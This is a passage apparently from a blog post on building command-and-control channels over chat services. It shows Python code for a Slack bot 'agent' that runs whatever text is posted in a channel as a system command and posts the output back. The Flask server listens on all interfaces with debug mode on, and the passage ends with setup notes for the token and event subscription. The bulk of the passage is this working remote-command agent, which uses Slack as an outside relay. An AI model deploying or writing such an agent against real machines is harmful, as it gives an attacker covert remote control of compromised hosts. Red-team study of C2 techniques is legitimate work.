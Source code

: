 After that, add the bot to the channel:

![slack](/assets/img/posts/2024-02-23-c2-all-the-things/slack-4.png)

### Agent
```python
import slack
from flask import Flask
from slackeventsapi import SlackEventAdapter
import subprocess
SLACK_TOKEN="REDACTED"
SIGNING_SECRET = "REDACTED"
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
app = Flask(__name__)
slack_event_adapter = SlackEventAdapter(SIGNING_SECRET, '/slack/events', app)
client = slack.WebClient(token=SLACK_TOKEN)
@slack_event_adapter.on('message')
def message(payload):
    event = payload.get('event', {})
    channel_id = event.get('channel')
    text = event.get('text')
    output = Exec(text).decode()
    client.chat_postMessage(channel=channel_id,text=output)
if __name__ == "__main__":
    app.run(debug=True,host="0.0.0.0")
```
Slack bot token adn signing secret must be put in the code in order for it to work.
An event handler is registered and the URL where the code is hosted must be added to event subscription: